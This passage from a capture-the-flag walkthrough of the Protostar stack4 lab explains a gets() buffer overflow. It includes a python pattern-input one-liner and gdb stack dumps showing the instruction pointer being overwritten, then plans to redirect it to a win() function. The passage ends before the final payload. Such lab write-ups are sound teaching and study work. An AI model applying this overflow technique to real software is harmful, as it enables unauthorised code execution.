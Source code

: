 We can see that our input is being placed on the stack, however, continuing from this point results in a normal exit. What we want to do is try and abuse this vulnerable gets() function and run into some memory corruption issues.

Let's fire in a string of characters to see what happens if we write too much data. This is similar to the previous challenges, except in this instance we want to see if we can gain control of the instruction pointer (EIP) rather than pass some checks that have been designed by the programmer themselves. If you haven't done any EIP overwrites before, I recommend you have a read up on how they can be abused and exploited via overflows to redirect flow to the attacker's choice. Anyway, let's write our python output to a file and use this as our input:

```
python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"' > /tmp/stack4
```

By inspecting our stack with the above input, we can see our letters laid out in the order we wrote them in:

```
(gdb) x/35wx $esp
0xbffffc00:	0xbffffc10	0xb7ec6165	0xbffffc18	0xb7eada75
0xbffffc10:	0x41414141	0x42424242	0x43434343	0x44444444 <-- input starts on this row
0xbffffc20:	0x45454545	0x46464646	0x47474747	0x48484848
0xbffffc30:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0xbffffc40:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0x50505050
0xbffffc50:	0x51515151	0x52525252	0x53535353	0x54545454
0xbffffc60:	0x55555555	0x56565656	0x57575757	0x58585858
0xbffffc70:	0x59595959	0x5a5a5a5a	0xb7ffef00	0x0804824b <-- input ends of this row
0xbffffc80:	0x00000001	0xbffffcc0	0xb7ff0626
```

Now let's continue stepping through our instructions and see what happens:

```
(gdb) ni
0x0804841e in main (argc=Cannot access memory at address 0x5353535b) at stack4/stack4.c:16
16	in stack4/stack4.c
(gdb) ni
Cannot access memory at address 0x53535357
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
```

Sweet - looks like we got a memory corruption error. This means some of our input ended up over writing the instruction pointer (EIP), resulting in our execution attempting to continue at address "0x54545454" (which in this case, is nothing). What we want to do here, is work out the offset to this address and replace "0x54545454" with the address of our win() function, which we identified before. This will ultimately redirect our flow of execution by forcing the EIP to point at our new address.

"0x54" is "T" in ASCII, so what we can either do is check the offset in memory by finding the difference in the stack addresses from the beginning of the input to the "TTTT", we can manually count the characters (lol), we can find which number of the alphabet "T" is and multiply by 4 to get our address. There are a number of ways. I am going to do the address offsets because I like to pretend I know how memory works.

